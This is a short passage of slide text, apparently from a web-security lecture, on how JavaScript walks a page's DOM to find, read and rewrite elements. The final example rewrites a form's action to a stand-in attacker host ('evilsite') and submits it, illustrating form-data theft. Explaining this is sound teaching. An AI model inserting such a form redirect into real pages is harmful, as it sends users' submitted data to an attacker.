

# Selecting and Changing Content
Scripts can "walk" the tree to find specific elements
Function to count the number of <input> tags in a page
function counttags(tag) {
count = document.getElementsByTagName(tag).length
return count
}
The script can then read the item's attributes and associated
items such as text
Determine the URL of an image on the page
source = document.images["Logo"].src;
The script can then rewrite the item
Rewrite the action and submit the form
document.getElementById('myForm').action = "http://evilsite/"
document.getElementById('myForm').submit